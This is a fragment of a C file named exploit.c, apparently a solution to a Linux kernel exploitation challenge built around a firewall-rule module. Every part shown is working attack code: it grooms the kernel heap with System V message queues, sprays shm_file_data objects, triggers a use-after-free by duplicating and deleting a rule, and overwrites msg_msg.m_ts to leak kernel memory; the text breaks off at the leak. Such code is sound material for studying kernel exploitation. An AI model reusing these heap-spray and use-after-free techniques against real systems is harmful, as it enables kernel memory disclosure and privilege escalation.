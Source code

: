 ```exploit.c
  // alloc some buffers
  char *buf_1p = mmap(0, PAGE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  char *buf_cpysrc = mmap(0, PAGE, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  char *buf_big = mmap(0, PAGE * 3, PROT_READ | PROT_WRITE, MAP_PRIVATE | MAP_ANONYMOUS, -1, 0);
  assert(buf_1p != MAP_FAILED && buf_big != MAP_FAILED);
  memset(buf_1p, 'A', PAGE);
  memset(buf_big, 0, PAGE * 3);
  buf_name = calloc(1, 0x30);
  buf_iface = calloc(1, 0x30);
  buf_ip = calloc(1, 0x30);
  buf_netmask = calloc(1, 0x30);

  // heap cleaning
  puts("[.] cleaning heap...");
  #define CLEAN_N 10
  for (int ix = 0; ix != CLEAN_N; ++ix) {
    int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
    struct msg4k cleaning_msg = { .mtype = 1 };
    memset(cleaning_msg.mtext, 'B', PAGE - 0x30);
    KMALLOC(qid, cleaning_msg, 1);
  }

  // allocate sample rules
  puts("[.] allocating sample rules...");
  #define FIRST_N 30
  for (int ix = 0; ix != CLEAN_N; ++ix) {
    add_rule(buf_iface, buf_name, ix, INBOUND, buf_1p);
  }

  // dup rule 1
  puts("[.] dup rule 1...");
  dup_rule(INBOUND, 1);

  // delete INBOUND rule 1
  puts("[.] deleting inbound 1...");
  delete_rule(INBOUND, 1);

  // spray `shm_file_data` on kmalloc-32
  #define SFDN 0x50
  rep(ix, SFDN) {
    int shmid = shmget(IPC_PRIVATE, PAGE, 0600);
    assert(shmid >= 0);
    void *addr = shmat(shmid, NULL, 0);
    assert((long)addr >= 0);
  }

  // allocate msg_msg on 4k & 32 heap (UAF)
  puts("[.] allocating msg_msg for UAF...");
  int qid = msgget(IPC_PRIVATE, 0666 | IPC_CREAT);
  struct msg4k uaf_msg = { .mtype = 1 };
  memset(uaf_msg.mtext, 'U', PAGE - 0x30);
  assert(msgsnd(qid, &uaf_msg, DATALEN_MSG + 0x20 - 0x8, MSG_COPY | IPC_NOWAIT) == 0);

  // use UAF write to overwrite msg_msg.m_ts
  puts("[+] overwriting msg_msg by UAF.");
  #define OVERBUFSZ DATALEN_MSG + 0x300
  memset(buf_iface, 0, 0x10); // m_list
  ((long*)buf_name)[0] = 1; // m_type
  ((long*)buf_name)[1] = OVERBUFSZ; // m_ts
  edit_rule_preserve(buf_iface, buf_name, 0, OUTBOUND);

  errno = 0;
  // receive msg_msg to leak kern data.
```